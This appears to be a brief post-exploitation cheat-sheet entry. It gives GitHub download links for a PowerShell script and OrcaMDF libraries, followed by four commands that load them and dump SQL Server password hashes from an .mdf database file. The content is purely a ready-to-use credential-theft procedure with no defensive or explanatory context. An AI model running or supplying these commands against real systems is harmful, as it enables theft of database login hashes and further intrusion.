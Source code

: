### source
https://raw.githubusercontent.com/xpn/Powershell-PostExploitation/master/Invoke-MDFHashes/Get-MDFHashes.ps1  
https://github.com/xpn/Powershell-PostExploitation/raw/master/Invoke-MDFHashes/OrcaMDF.Framework.dll  
https://github.com/xpn/Powershell-PostExploitation/raw/master/Invoke-MDFHashes/OrcaMDF.RawCore.dll  

### get hash from mdf mssql database file
```
Import-Module .\OrcaMDF.RawCore.dll
Import-Module .\OrcaMDF.Framework.dll
Import-Module .\Get-MDFHashes.ps1
Get-MDFHashes -mdf "<fullPathToFile>.mdf"
```

